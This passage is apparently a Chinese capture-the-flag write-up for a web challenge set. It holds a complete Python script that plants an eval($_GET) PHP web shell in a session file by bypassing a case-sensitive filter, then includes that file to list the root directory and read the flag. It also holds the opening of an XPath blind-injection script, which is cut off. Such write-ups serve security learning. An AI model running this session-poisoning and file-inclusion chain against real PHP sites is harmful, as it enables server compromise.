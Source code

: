 不能用php，但是没有用`i`修饰符，就`PhP`绕过

后面还有一个time的语句，

就可以用换行`\n`和`#`注释来多次改session来写session文件

脚本
```
import requests

session = requests.session()

burp0_url = "http://ha1cyon-ctf.fun:30135/msg.php"
burp0_cookies = {"session": "acc48197-782d-41d9-a631-2a3e81837e9a.s_KiQgbftrE7e0hu6hLPXKF0W3I", "PHPSESSID": "4feut4nk0o5o37jjsg8173opk3"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://ha1cyon-ctf.fun:30135/index.bak.php?action=message.php", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Connection": "close"}
burp0_data = {"msg": "<?PhP \n#"}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)




burp0_data = {"msg": "\neval($_GET[_]);#"}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)



burp0_data = {"msg": "\n ?>"}
session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


burp0_url = "http://ha1cyon-ctf.fun:30135/index.bak.php?action=/tmp/sess_4feut4nk0o5o37jjsg8173opk3&_=print_r(scandir('/'));print_r(file_get_contents('/FIag_!S_it'));"
r=session.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print(r.text)

```

![](http://mo0n.top/images/ha1cyon/chao-jiandan-php.png)


## ezlogin 

登录抓包看看，是xml请求，第一反应就是XXE，

全部XXE打上去了并没有用，并不是XXE，

而是XPATH盲注

[https://www.cnblogs.com/backlion/p/8554749.html](https://www.cnblogs.com/backlion/p/8554749.html)

脚本
```
import requests
import re

url='http://ha1cyon-ctf.fun:30163/'
sess=requests.session()
def token():
    req=sess.get(url)
    tok=re.findall('<input type="hidden" id="token" value="(.*)" />',req.text)
    return tok[0]

def login(username,password):
```
